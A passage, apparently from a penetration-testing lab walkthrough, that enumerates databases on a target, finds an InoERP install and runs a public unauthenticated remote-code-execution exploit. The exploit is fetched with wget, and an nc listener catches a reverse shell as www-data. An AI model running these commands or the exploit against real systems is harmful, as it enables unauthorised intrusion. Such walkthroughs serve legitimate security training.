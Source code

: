 ```
database #3 on server: we...
database #3 on server: web...
database #3 on server: webe...
database #3 on server: weber...
database #3 on server: weberp...
database #3 on server: weberp_...
database #3 on server: weberp_d...
database #3 on server: weberp_db...
Finally, database #3 on server: weberp_db
Databases: ['information_schema', 'inoerp_db', 'weberp_db']
TOTAL TIME =  36.6472799778
```

The output reveals an interesting database: `inoerp_db`.

When visiting `http://192.168.100.72/inoerp` we discover another application.

![inoerp](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_135_image_3_9vrdDnSM.png)

inoerp

After researching `inoerp` we discover [InoERP 0.7.2 - Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/48946).

We download the exploit onto our attacker machine.

```
kali@kali:~$ wget https://www.exploit-db.com/raw/48946
```

Now we start a listener on our attacker machine.

```
root@kali:~# nc -nvlp 80
Listening on [any] 80 ...
```

We execute our exploit.

```
kali@kali:~$ python 48946 http://192.168.100.72/inoerp 192.168.100.44 80
```

We receive a response in our listener.

```
root@kali:~# nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.100.44] from (UNKNOWN) [192.168.100.72] 58562
bash: cannot set terminal process group (33996): Inappropriate ioctl for device
bash: no job control in this shell
...
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$
```

## Privilege Escalation
